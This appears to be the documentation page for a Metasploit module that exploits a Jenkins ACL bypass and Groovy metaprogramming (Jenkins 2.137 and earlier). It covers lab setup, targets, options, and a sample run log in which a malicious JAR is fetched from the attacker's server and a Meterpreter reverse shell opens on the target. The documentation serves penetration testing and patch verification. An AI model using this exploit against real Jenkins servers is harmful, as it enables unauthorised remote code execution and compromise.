 ## Introduction

This module exploits a vulnerability in Jenkins dynamic routing to
bypass the `Overall/Read` ACL and leverage Groovy metaprogramming to
download and execute a malicious JAR file.

When the `Java Dropper` target is selected, the original entry point
based on `classLoader.parseClass` is used, which requires the use of
Groovy metaprogramming to achieve RCE.

When the `Unix In-Memory` target is selected, a newer, higher-level,
and more universal entry point based on `GroovyShell.parse` is used.
This permits the use of in-memory arbitrary command execution.

The ACL bypass gadget is specific to Jenkins <= 2.137 and will not work
on later versions of Jenkins.

Tested against Jenkins 2.137 and Pipeline: Groovy Plugin 2.61.

## Setup

1. `git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc`
2. `cd cve-2019-1003000-jenkins-rce-poc/sample-vuln`
3. Edit `run.sh` and change `2.152-alpine` to `2.137`
4. `./run.sh`

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Java Dropper
```

## Options

### RPORT

Set this to the Jenkins port. The default is 8080.

### TARGETURI

Set this to the Jenkins base path. The default is `/`.

### SRVPORT

Set this to the port on which to serve the payload. Change it from 8080
to something like 8081 if you are testing Jenkins locally on port 8080.

This option is valid only for the `Java Dropper` target.

### ForceExploit

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf exploit(multi/http/jenkins_metaprogramming) > run

[*] Started HTTPS reverse handler on https://192.168.1.2:8443
[*] Jenkins 2.137 detected
[+] Jenkins 2.137 is a supported target
[+] ACL bypass successful
[*] Using URL: http://0.0.0.0:8081/
[*] Local IP: http://192.168.1.2:8081/
[*] Configuring Java Dropper target
[*] Sending Jenkins and Groovy go-go-gadgets
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.pom requested
[-] Sending 404
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending 200
[*] GET /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending payload JAR
[*] https://192.168.1.2:8443 handling request from 192.168.1.2; (UUID: qlrpxu6t) Staging java payload (54399 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.2:8443 -> 192.168.1.2:58688) at 2019-03-15 18:57:24 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '$HOME/.groovy/grapes/CarisaChristiansen' on the target

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer    : 6f21b8da2915
OS          : Linux 4.9.93-linuxkit-aufs (amd64)
Meterpreter : java/linux
meterpreter >
```
